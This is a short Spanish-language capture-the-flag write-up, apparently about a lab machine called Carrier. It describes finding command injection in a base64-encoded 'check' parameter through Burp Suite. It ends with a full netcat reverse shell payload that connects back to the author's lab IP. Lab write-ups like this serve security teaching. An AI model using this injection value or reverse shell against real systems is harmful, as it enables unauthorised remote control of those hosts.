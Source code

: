 ### Web RCE

Dos procesos los estaría ejecutando "quagga" y el otro lo está ejecutando root.

> Quagga se compone de dos procesos: **Proceso Zebra: Es el que modificala tabla de enrutamiento del núcleo del sistema**. Proceso OSPF, RIP y/o BGP: Es el que le indica a Zebra qué modificaciones realizar en la tabla de enrutamiento.

Voy a pasar la petición del verify por burpsuite.

![](/assets/images/Carrier/img5.png)

La cadena que contiene check es base64 y decodeado es quagga. Voy a probar ejecutar comandos pasandole ";id #" encodeado en base64

![](/assets/images/Carrier/img6.png)

Tenemos RCE, vamos a establecernos una revshell. El payload que utilizaré es:

```bash
;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 443 >/tmp/f #
```

